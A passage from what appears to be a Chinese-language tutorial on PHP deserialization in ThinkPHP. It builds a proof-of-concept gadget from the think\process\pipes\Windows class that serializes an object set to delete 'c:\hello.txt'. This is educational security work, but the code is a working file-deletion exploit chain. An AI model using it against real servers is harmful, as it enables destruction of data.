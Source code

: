 > 可以看到变量 `$files` 的定义

复制变量 `$files` 所在的类

![复制变量 $files 所在的类](./../../../../images/PHP%20%E5%BA%8F%E5%88%97%E5%8C%96/%E5%A4%8D%E5%88%B6%E5%8F%98%E9%87%8F%20$files%20%E6%89%80%E5%9C%A8%E7%9A%84%E7%B1%BB.png)

删除无用的代码

```php
<?php
namespace think\process\pipes;
use think\Process;
class Windows extends Pipes
{
}
```

在 `C:\phpstudy_pro\WWW\think\public\removefile.php` 构造 POC ， 定义 `private $files = [];` 为 `$this->files=['c:\\hello.txt'];` ，定义一个空的 `Pipes` ，并增加 `public function _construct()` 魔术方法

```php
<?php
//引用命名空间和 Pipes 类
namespace think\process\pipes;
use think\Process;
class Pipes{
}
//Windows 类
class Windows extends Pipes
{
//files 属性
private $files = [];
//__construct 魔术方法
public function __construct()
{
//$this->files 属性的值修改为我们要删除的文件
$this->files=['c:\\hello.txt'];
}
}
//base64 输出序列化后的 Windows 对象
echo base64_encode(serialize(new Windows()));
?>
```
